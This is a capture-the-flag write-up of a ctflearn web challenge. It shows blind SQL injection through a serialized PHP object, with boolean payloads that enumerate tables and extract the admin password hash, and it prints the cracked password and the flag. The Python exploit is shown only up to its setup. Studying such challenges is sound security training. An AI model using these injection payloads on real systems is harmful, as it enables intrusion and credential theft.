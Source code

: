 Comes out that these classes (*Phar* and *PharData*) seem pretty useless in this task, especially that they cannot be even serialized! Looking at the receiving header: `X-Powered-By: PHP/5.5.9-1ubuntu4.22` we notice that the version of PHP is `PHP/5.5.9` which has a lot of [vulnerabilites]. Some of them are about *deserialization*, but let's return to the **SQL Injection**. 

### Blind SQL Injection
We suspect that the *SQL query* looks something like `DELETE FROM ... WHERE ID={} ...`, but we don't get any output from executing the query, so we have to do a **Blind SQL Injection**. 

The idea of the attack is to fetch an information about *table* and *column names* inside given database. Our queries will look like: `DELETE FROM ... WHERE ID={1337} AND {QUERY}` where if `QUERY` returns `true` point of id `1337` gets removed and nothing happens otherwise. Let's create an example query: `..ID=507868 AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1),1,1))>97`. We are fetching the first character of the returned the first table name (it is important that `SELECT` returns exactly one record, that's what `LIMIT 0, 1` is for) and comparing it with 'a' character. Now we can do a **binary search** for each character to determine which one it is and by repeating the process to fetch the whole name.

After repeating the process and increassing offsets in `LIMIT {offset},1` and `substring(..., {start}, 1)` we get two tables with six columns in summary:

| point | | |
| ----- | - | - |
| id | point_blob | uid |

| user | | |
| - | - | - |
| username | password | uid |

Now we just need to fetch admin's password and we can do so by executing the following query `.. AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT 0,1),{word_offset},1))>{comparing_char}` which gives us a *MD5 hash* `0c2c99a4ad05d39177c30b30531b119b`. And after cracking it we get the real password: `grapevine`.

### Flag
After login into admin's account, we are given the flag: `ctflearn{obj3ct_inj3ct1on}` which name is very confusing, because it wasn't an object injection at all, just some simple object modification!

### Python exploit
A bit complicated, but friendly to use, exploit created to solve the task
```python
import requests
import urllib
import re


url_base = "http://web.ctflearn.com/grid/controller.php"
url_login= url_base+"?action=login"
url_debug= url_base+"?action=debug"
url_delete= url_base+"?action=delete_point&point="
url_addpoint = url_base+"?action=add_point"

payload_base = 'O:5:"point":1:{s:2:"ID";s:@LENGTH@:"@QUERY@";};'
init_array = []
sillent = False
fancy_console = False

ASCIIAlphabet = "\001 !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
simpleAlphabet = "\001abcdefghijklmnopqrstuvwxyz"
HEXAlphabet = "\0010123456789abcdef"
advancedAlphabet= "\0010123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz"

```

[vulnerabilites]: <https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/version_id-164957/PHP-PHP-5.5.9.html>